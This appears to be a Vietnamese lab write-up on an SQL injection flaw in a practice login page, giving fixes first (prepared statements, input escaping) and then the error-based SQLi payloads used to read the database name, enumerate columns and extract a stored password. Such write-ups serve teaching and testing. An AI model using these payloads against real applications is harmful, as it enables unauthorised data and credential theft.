 # Link demo : 
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Khi em vào giao diện sẽ như thế này


![Alt text](image-1.png)

- Đây là đoạn code dính lỗi sqli:

![Alt text](image-2.png)

- Em thử dùng lỗi error base để kiểm tra: em sử dụng payload :"' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- -" trong cheat seet sqli

- or 1=1: Điều kiện luôn đúng, mục đích là để thêm điều kiện vào câu truy vấn.
- group by concat(database(),'-', floor(rand(0)*2)): Group các kết quả theo giá trị của chuỗi được tạo ra bằng cách ghép nối tên cơ sở dữ liệu, dấu "-", và một giá trị ngẫu nhiên (0 hoặc 1).
- having min(0): Điều kiện HAVING luôn đúng, vì giá trị nhỏ nhất trong trường min(0) là 0.

+ Em nhận được kết quả
![Alt text](image-3.png)

- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users và có 1 cột là id
- Em tiếp tục tìm các cột khác trong bảng users
Payload : ' or 1=1 group by concat((select column_name from information_schema.columns where table_name='users' limit 2,1),'-',floor(rand(0)*2)) having min(0)-- -
![Alt text](image-4.png)
- sau đó em dùng : ' or 1=1 group by concat((select password from users limit 2,1),'-',floor(rand(0)*2)) having min(0)-- -
-> Em nhận được mật khẩu là hihi123


